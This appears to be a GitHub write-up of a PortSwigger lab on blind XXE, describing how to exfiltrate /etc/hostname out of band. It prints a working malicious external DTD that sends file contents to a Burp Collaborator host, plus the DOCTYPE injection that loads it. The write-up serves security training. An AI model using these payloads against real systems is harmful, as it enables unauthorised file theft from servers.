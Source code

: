 # Blind XXE - to exfiltrate data using a malicious external DTD

## 📌 Lab Details
- **Title**: Blind XXE to exfiltrate data using a malicious external DTD
- **Difficulty**: Practitioner
- **Category**: XML external entity injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/32ee145c6edcd4d8e12b0fbd40ddba9cb63067b92b095c98cf63926808be0b04?referrer=%2fweb-security%2fxxe%2fblind%2flab-xxe-with-out-of-band-exfiltration

## 🔍 Summary
This lab shows how to exploit a **blind XXE** vulnerability using a **malicious external DTD file** to exfiltrate data (in this case, the contents of `/etc/hostname`). Since the application does not return any visible output, you use **out-of-band (OAST)** techniques with **Burp Collaborator** to detect whether the exploit worked.

## 🛠 Steps to Solve
1. Copy the **Burp Collaborator** payload to the clipboard.
2. Inject the following payload on the **Exploit server**:
   ```sh
   <!ENTITY % file SYSTEM "file:///etc/hostname">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
   %eval;
   %exfil;
   ```
3. Insert the following **external entity** in between XML declaration:
   ```sh
   <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
   ```
4. Go to the **Collaborator** tab and click "Poll Now". The **HTTP** interaction will contain the contents of the `/etc/hostname` file.
   
## 📖 Key Takeaways
- The vulnerability is exploited using an **external DTD** hosted on the **exploit server**.
- **Burp Collaborator** is used to verify whether the exploit worked and to retrieve the exfiltrated data.
- This technique demonstrates how XXE can be used for **data theft** even when responses are completely silent.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/4b28d16c-2290-409c-9741-8317f88c91e2" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/f2bee4a0-0517-40de-a605-cc12da8d4c9b" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/cf5204a8-b4b5-461a-b8a0-22362103838c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/18cf4b05-c533-4b2f-8040-ae346ba250bb" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e4170fdc-7076-4e04-ade2-04eb4780699d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ede995a1-c6d5-4081-85e5-693b05f1ca79" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/314d1cd1-8235-45b3-842c-a3a6ce764b58" />
